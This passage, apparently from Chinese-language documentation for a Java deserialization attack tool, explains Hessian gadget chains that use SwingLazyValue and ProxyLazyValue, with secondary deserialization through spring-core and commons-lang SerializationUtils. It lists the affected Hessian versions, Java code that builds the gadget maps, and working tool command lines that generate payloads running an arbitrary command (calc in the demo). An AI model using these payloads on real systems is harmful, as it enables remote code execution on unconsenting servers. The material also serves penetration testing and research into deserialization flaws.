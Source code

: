 ```java
UIDefaults u3 = new UIDefaults();
UIDefaults u4 = new UIDefaults();
u3.put("bbb", swingLazyValue2);
u4.put("bbb", swingLazyValue2);

HashMap map2 = HashColl.makeMap(u3, u4);

HashMap map = new HashMap();
map.put(1, map1);
map.put(2, map2);
```

其实用的比较多的还时写文件配置XSTL来进行代码执行。

#### spring-core Java反序列化

描述：spring-core依赖中的org.springframework.util.SerializationUtils类有个deserialize静态方法，它能将字节数组进行Java反序列化

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

另外还需要注意：

* 目标需要引入 spring-core.jar 的依赖
* 俩种利用方式：SwingLazyValue自身的反射利用由于类加载器的缘故只能加载rt.jar包下的类，需要搭配MethodUtil才能继续利用。ProxyLazyValue类加载器源自线程上下文所以没这个限制。
* SwingLazyValue+MethodUtil构造利用可能触发JVM Crash或打不了情况，ProxyLazyValue稳定

工具：推荐使用ProxyLazyValue构造方式，以下示例是使用CommonsBeanutils2二次Java反序列化，在其他的Java反序列化链以此类推

```bash
#SwingLazyValue在ysoSimple中测试成功,本地SpringBoot环境失败(可能触发JVM Crash或打不了)
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:SpringCoreDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType "Hessian1"

#ProxyLazyValue测试通过
-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:SpringCoreDeserialize:CommonsBeanutils2:Templateslmpl:auto_cmd:calc" -hessianType "Hessian2"
```

#### commons-lang Java反序列化

描述：commons-lang依赖中的org.apache.commons.lang.SerializationUtils类有个deserialize静态方法，它能将字节数组进行Java反序列化

说明：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

另外还需要注意：

* 目标需引入 commons-lang.jar 的依赖
* 俩种利用方式：SwingLazyValue自身的反射利用由于类加载器的缘故只能加载rt.jar包下的类，需要搭配MethodUtil才能继续利用。ProxyLazyValue类加载器源自线程上下文所以没这个限制。
* SwingLazyValue+MethodUtil构造利用可能触发JVM Crash或打不了情况，ProxyLazyValue稳定
